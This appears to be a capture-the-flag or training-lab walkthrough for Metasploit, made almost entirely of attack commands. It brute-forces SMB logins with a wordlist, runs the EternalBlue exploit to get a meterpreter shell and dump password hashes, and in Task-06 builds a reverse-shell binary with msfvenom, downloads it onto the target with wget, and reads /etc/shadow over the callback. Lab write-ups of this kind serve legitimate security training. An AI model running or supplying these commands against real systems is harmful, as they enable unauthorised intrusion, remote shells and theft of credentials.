 ## Task-01
```sh
> sudo nmap -sS -sV IP
> search smb_login
> use auxiliary/scanner/smb/smb_login
> show options
> set rhosts IP
> set RPORT port_no
> set SMBUser penny
> set PASS_File /home/kali/Downloads/MetasploitWordlist-1632491116676.txt
```

## Task-04

```sh
> search auxiliary/scannr/smtp
```
This will provide us payloads and exploits available for smtp.

## Task-05
```sh
> search ms17
> use exploit/windows/smb/ms17_010_eternalblue
> set payload payload/windows/x64/meterpreter/reverse_tcp
> show options
> set rhosts
> set lhost
> exploit or run
> sessions -i 1
> pwd
> search -f flag.txt
> cat "c:\Users\Jon\Documents\flag.txt"
> hashdump
```

# Task-06
#### Creating payload
```
 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.13.95.14 LPORT=4444 -f elf > rev_shell.elf
```
#### permission
```
chmod 777 rev_shell.elf
```
#### Started python server
```
python3 -m http.server 9000 
```
#### Login to the remote machine with sudo creds provided in questions
```
 wget http://10.13.95.14:9000/rev_shell.elf
```
#### permissions to rev_shell.elf  on remote machine
```
chmod 777 rev_shell.elf
```
#### setting up handler on own machine using msfconsole
```
> search multi/handler
> use exploit/multi/handler
> set payload linux/x86/meterpreter/reverse_tcp
> show options
> set lhost 10.13.95.14
> set lport 4444
> run
```
#### run rev_shell.elf on remote machine
```
./rev_shell.elf
```
#### on handler in meterpreter run following commands to get other users password hash
```
> ls
> cd /
> cd etc
> cat shadow
```

